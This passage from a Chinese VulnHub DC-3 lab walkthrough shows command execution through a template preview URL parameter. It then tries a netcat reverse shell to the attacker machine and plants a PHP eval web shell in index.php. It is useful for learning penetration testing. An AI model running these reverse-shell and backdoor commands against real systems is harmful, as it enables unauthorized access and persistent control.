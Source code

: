 ![](../../../../../assets/img/安全/实验/VulnHub/DC/DC3/10.png)

尝试访问模板预览 `http://192.168.141.138/index.php?tp=1&templateStyle=4&cmd=whoami`

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC3/11.png)

ok，命令成功执行，下面直接准备回弹 shell

kali 开启监听
```bash
nc -lvp 4444
```

访问 `http://192.168.141.138/index.php?tp=1&templateStyle=4&cmd=nc%20-nv%20192.168.141.134%204444%20-e%20/bin/bash`

等待了半天,没弹回来,什么鬼,换个回弹方法试试,回弹方法见 [后渗透](../../../笔记/RedTeam/后渗透/后渗透.md#Linux) Linux 下回弹 shell 部分

注: 这里试了半天,用了很多方法都没有回弹成功,只好暂时另辟蹊径了

到 index.php 里加个一句话把
```php
<?php eval($_POST[1]);?>
```
